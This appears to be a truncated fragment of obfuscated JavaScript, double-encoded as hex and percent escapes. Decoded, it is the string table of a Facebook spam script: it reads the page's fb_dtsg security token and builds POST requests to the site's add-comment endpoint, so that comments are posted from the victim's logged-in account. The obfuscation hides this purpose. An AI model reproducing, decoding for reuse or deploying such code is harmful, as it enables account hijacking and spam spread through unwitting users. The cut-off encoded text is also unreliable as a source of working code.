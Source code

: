 25\x33\x33\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x36\x25\x36\x33\x25\x36\x43\x25\x37\x30\x25\x33\x44\x25\x37\x42\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x36\x43\x25\x35\x46\x25\x36\x39\x25\x36\x44\x25\x37\x30\x25\x36\x39\x25\x36\x34\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x33\x41\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x33\x34\x25\x33\x35\x25\x33\x33\x25\x33\x35\x25\x33\x32\x25\x33\x34\x25\x36\x31\x25\x33\x30\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x32\x43\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x36\x43\x25\x36\x35\x25\x36\x31\x25\x37\x32\x25\x36\x33\x25\x36\x46\x25\x37\x35\x25\x36\x45\x25\x37\x34\x25\x36\x35\x25\x37\x32\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x33\x41\x25\x33\x30\x25\x32\x43\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x36\x35\x25\x36\x43\x25\x36\x35\x25\x36\x44\x25\x36\x35\x25\x36\x45\x25\x37\x34\x25\x36\x39\x25\x36\x34\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x33\x41\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x36\x41\x25\x37\x33\x25\x35\x46\x25\x33\x35\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x32\x43\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x37\x36\x25\x36\x35\x25\x37\x32\x25\x37\x33\x25\x36\x39\x25\x36\x46\x25\x36\x45\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x33\x41\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x37\x38\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x32\x43\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x37\x30\x25\x36\x31\x25\x37\x32\x25\x36\x35\x25\x36\x45\x25\x37\x34\x25\x35\x46\x25\x36\x36\x25\x36\x32\x25\x36\x39\x25\x36\x34\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x32\x25\x33\x41\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x37\x44\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x36\x25\x36\x31\x25\x37\x34\x25\x37\x34\x25\x36\x31\x25\x36\x33\x25\x36\x38\x25\x36\x35\x25\x36\x34\x25\x35\x46\x25\x37\x33\x25\x37\x34\x25\x36\x39\x25\x36\x33\x25\x36\x42\x25\x36\x35\x25\x37\x32\x25\x35\x46\x25\x36\x36\x25\x36\x32\x25\x36\x39\x25\x36\x34\x25\x33\x44\x25\x33\x30\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x36\x25\x36\x31\x25\x37\x34\x25\x37\x34\x25\x36\x31\x25\x36\x33\x25\x36\x38\x25\x36\x35\x25\x36\x34\x25\x35\x46\x25\x37\x30\x25\x36\x38\x25\x36\x46\x25\x37\x34\x25\x36\x46\x25\x35\x46\x25\x36\x36\x25\x36\x32\x25\x36\x39\x25\x36\x34\x25\x33\x44\x25\x33\x30\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x36\x25\x36\x37\x25\x36\x39\x25\x36\x36\x25\x37\x34\x25\x36\x46\x25\x36\x33\x25\x36\x33\x25\x36\x31\x25\x37\x33\x25\x36\x39\x25\x36\x46\x25\x36\x45\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x36\x25\x36\x36\x25\x37\x34\x25\x35\x42\x25\x37\x34\x25\x36\x45\x25\x35\x44\x25\x33\x44\x25\x35\x42\x25\x35\x44\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x36\x25\x35\x46\x25\x35\x46\x25\x36\x31\x25\x33\x44\x25\x33\x31\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x36\x25\x35\x46\x25\x35\x46\x25\x36\x34\x25\x37\x39\x25\x36\x45\x25\x33\x44\x25\x33\x37\x25\x36\x45\x25\x33\x38\x25\x36\x31\x25\x36\x38\x25\x37\x39\x25\x36\x41\x25\x33\x33\x25\x33\x35\x25\x37\x39\x25\x36\x45\x25\x37\x38\x25\x36\x43\x25\x33\x32\x25\x37\x35\x25\x33\x35\x25\x34\x36\x25\x33\x39\x25\x33\x37\x25\x34\x42\x25\x36\x35\x25\x37\x30\x25\x34\x35\x25\x37\x33\x25\x37\x39\x25\x36\x46\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x36\x25\x35\x46\x25\x35\x46\x25\x37\x32\x25\x36\x35\x25\x37\x31\x25\x33\x44\x25\x37\x31\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x36\x25\x36\x36\x25\x36\x32\x25\x35\x46\x25\x36\x34\x25\x37\x34\x25\x37\x33\x25\x36\x37\x25\x33\x44\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x35\x43\x25\x37\x38\x25\x33\x32\x25\x33\x36\x25\x37\x34\x25\x37\x34\x25\x37\x33\x25\x37\x34\x25\x36\x31\x25\x36\x44\x25\x37\x30\x25\x33\x44\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x35\x30\x25\x34\x46\x25\x35\x33\x25\x35\x34\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x32\x46\x25\x36\x31\x25\x36\x41\x25\x36\x31\x25\x37\x38\x25\x32\x46\x25\x37\x35\x25\x36\x36\x25\x36\x39\x25\x32\x46\x25\x36\x31\x25\x36\x34\x25\x36\x34\x25\x35\x46\x25\x36\x33\x25\x36\x46\x25\x36\x44\x25\x36\x44\x25\x36\x35\x25\x36\x45\x25\x37\x34\x25\x32\x45\x25\x37\x30\x25\x36\x38\x25\x37\x30\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x34\x33\x25\x36\x46\x25\x36\x45\x25\x37\x34\x25\x36\x35\x25\x36\x45\x25\x37\x34\x25\x32\x44\x25\x37\x34\x25\x37\x39\x25\x37\x30\x25\x36\x35\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x36\x31\x25\x37\x30\x25\x37\x30\x25\x36\x43\x25\x36\x39\x25\x36\x33\x25\x36\x31\x25\x37\x34\x25\x36\x39\x25\x36\x46\x25\x36\x45\x25\x32\x46\x25\x37\x38\x25\x32\x44\x25\x37\x37\x25\x37\x37\x25\x37\x37\x25\x32\x44\x25\x36\x36\x25\x36\x46\x25\x37\x32\x25\x36\x44\x25\x32\x44\x25\x37\x35\x25\x37\x32\x25\x36\x43\x25\x36\x35\x25\x36\x45\x25\x36\x33\x25\x36\x46\x25\x36\x34\x25\x36\x35\x25\x36\x34\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x37\x33\x25\x36\x35\x25\x37\x34\x25\x35\x32\x25\x36\x35\x25\x37\x31\x25\x37\x35\x25\x36\x35\x25\x37\x33\x25\x37\x34\x25\x34\x38\x25\x36\x35\x25\x36\x31\x25\x36\x34\x25\x36\x35\x25\x37\x32\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x37\x33\x25\x37\x34\x25\x36\x31\x25\x37\x34\x25\x37\x35\x25\x37\x33\x25\x32\x32\x25\x32\x43\x25\x32\x32\x25\x36\x33\x25\x36\x43\x25\x36\x46\x25\x37\x33\x25\x36\x35\x25\x32\x32\x25\x35\x44\x25\x33\x42\x25\x37\x36\x25\x36\x31\x25\x37\x32\x25\x32\x30\x25\x36\x36\x25\x36\x32\x25\x35\x46\x25\x36\x34\x25\x37\x34\x25\x37\x33\x25\x36\x37\x25\x33\x44\x25\x36\x34\x25\x36\x46\x25\x36\x33\x25\x37\x35\x25\x36\x44\x25\x36\x35\x25\x36\x45\x25\x37\x34\x25\x35\x42\x25\x35\x46\x25\x33\x30\x25\x37\x38\x25\x36\x31\x25\x33\x32\x25\x33\x32\x25\x36\x33\x25\x35\x42\x25\x33\x32\x25\x35\x